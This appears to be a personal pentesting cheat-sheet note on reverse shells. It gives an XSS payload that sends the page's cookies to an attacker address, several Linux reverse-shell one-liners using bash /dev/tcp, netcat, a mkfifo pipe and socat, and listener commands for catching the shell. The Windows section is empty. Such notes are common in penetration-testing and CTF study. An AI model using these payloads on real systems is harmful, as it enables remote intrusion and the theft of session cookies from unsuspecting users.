 ```yaml
---
tags:
  - reverse-shell
---
```

[All-in-one resource](https://www.revshells.com/) 

HTTP:
```http
<img src=x onerror=fetch('http://IP:PORT/'+document.cookie);>
```

### Linux:
```bash
bash -c 'exec bash -i &>/dev/tcp/IP/PORT <&1'

nc -e /bin/sh IP PORT

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f

socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:IP:PORT
```

> The #pseudo-terminals  let’s you spawn a pseudo-terminal that can fool commands like `su` into thinking they are being executed in a proper terminal.

### Windows

# Listen

```Shell
$ socat file:`tty`,raw,echo=0 tcp-listen:PORT
$ nc -nlvp PORT
```

Once we get a shell, we can try to [[Upgrade Shell]]